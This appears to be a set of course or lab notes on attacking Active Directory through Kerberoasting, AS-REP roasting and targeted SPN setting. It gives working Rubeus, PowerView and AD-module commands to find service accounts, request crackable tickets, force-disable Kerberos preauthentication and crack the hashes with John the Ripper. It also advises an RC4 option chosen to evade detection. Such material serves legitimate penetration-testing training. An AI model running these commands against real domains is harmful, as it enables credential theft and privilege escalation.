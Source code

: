 **Let think of scenario's where there where no service or paths, how can we escalate privileges in an active directory environment, what are other opportunities/ways we can go about it ??**

# **Kerberoast**


![](https://i.imgur.com/ruStWfi.png)



- Offline cracking of service account passwords.
- The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.
- Because (non-machine) service account passwords are not frequently changed, this has become a very popular attack!


**_Example -:_**


- Find user accounts used as Service accounts


```powershell
# AD Module

Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

# PowerView

Get-DomainUser -SPN
```

> **Hint :** When you run `klist`, the SPN can be identified as the name of the {service/machine name}


![](https://i.imgur.com/S7sx0zM.png)


**_Capturing Hashes :_**


- Use Rubeus to list Kerberoast stats


```powershell
Rubeus.exe kerberoast /stats
```


- Use Rubeus to request a TGS (This is a must run)


```powershell
Rubeus.exe kerberoast /user:svcadmin /simple 
```


- To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17 stands for rc4-hmac), look for Kerberoastable accounts that only support RC4_HMAC (Also must run)

```powershell
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
```

- Kerberoast all possible accounts

```powershell
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```


> **Note -:** You don't need invisi-shell while running `rubeus` here, it won't be stable, also the options with **must run**, must be ran as one might provide an hash and the other might not, depending on system configuration



**_Cracking Hashes :_**


- Crack ticket using John the Ripper


```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-
worst-pass.txt C:\AD\Tools\hashes.txt
```


# **Learning Objective 14**

- Using the Kerberoast attack, crack password of a SQL server service account.


## **Solution**


**_Coming Soon_**



# **Targeted Kerberoasting - AS-REPs**


- If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.
- With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well.



![](https://i.imgur.com/MITSHLg.png)


**_Example -:_**


- Enumerating accounts with Kerberos Preauth disabled

```powershell
# PowerView
Get-DomainUser -PreauthNotRequired -Verbose

# AD module
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```


- Force disable Kerberos Preauth
- Let's enumerate the permissions for RDPUsers on ACLs using `PowerView`:

```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose

Get-DomainUser -PreauthNotRequired -Verbose
```



- Request encrypted AS-REP for offline brute-force.
- Let's use `ASREPRoast`


```powershell
Get-ASREPHash -UserName VPN1user -Verbose
```


- To enumerate all users with Kerberos preauth disabled and request a hash


```powershell
Invoke-ASREPRoast -Verbose
```


- We can use John The Ripper to brute-force the hashes offline

```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-
pass.txt C:\AD\Tools\asrephashes.txt
```



# **Targeted Kerberoasting - Set SPN**

- With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain).
- We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".

**_Example :_**

- Let's enumerate the permissions for **RDPUsers** on ACLs using `PowerView`:

```powershell
Find-InterestingDomainAcl -ResolveGUIDs |
?{$_.IdentityReferenceName -match "RDPUsers"}
```

- See if the user already has a SPN:


```powershell
# Powerview
Get-DomainUser -Identity supportuser | select serviceprincipalname

# AD module
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```